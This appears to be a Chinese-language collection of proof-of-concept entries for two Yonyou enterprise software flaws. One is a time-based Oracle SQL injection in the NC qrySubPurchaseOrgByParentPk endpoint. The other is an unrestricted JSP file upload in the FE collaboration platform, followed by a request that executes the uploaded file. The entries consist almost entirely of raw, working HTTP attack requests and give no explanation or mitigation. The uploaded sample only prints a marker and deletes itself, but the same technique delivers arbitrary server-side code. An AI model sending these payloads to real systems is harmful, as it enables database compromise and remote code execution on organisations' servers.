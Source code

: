   
  
漏洞名称：  
用友NC qrySubPurchaseOrgByParentPk 存在SQL注入  
  
漏洞描述：  

```
POST /ebvp/register/qrySubPurchaseOrgByParentPk HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded


pk_group=1' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('RDS',5) --
```

  
  
漏洞名称：  
用友FE协同平台存在文件上传  
  
漏洞描述：  

```
POST /common/uploadFile.jsp?action=save&savePath=/images/upload/&fileName=123.jpg&title1=%C9%CF%B4%AB%CE%C4%BC%FE&title2=%D1%A1%D4%F1%CE%C4%BC%FE&allowsize=null&extName=.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.1018.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123456789




------WebKitFormBoundary123456789
Content-Disposition: form-data; name=&#34;accessory&#34;; filename=&#34;123.jsp&#34;
Content-Type: application/octet-stream


<%
 out.println(&#34;e165421110ba03099a1c0393373c5b43&#34;);
new java.io.File(application.getRealPath(request.getServletPath())).delete();
%>
------WebKitFormBoundary123456789--


```

  
访问上传后的文件（GET）  

```
GET /images/upload/123.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.2331.38 Safari/537.36


```
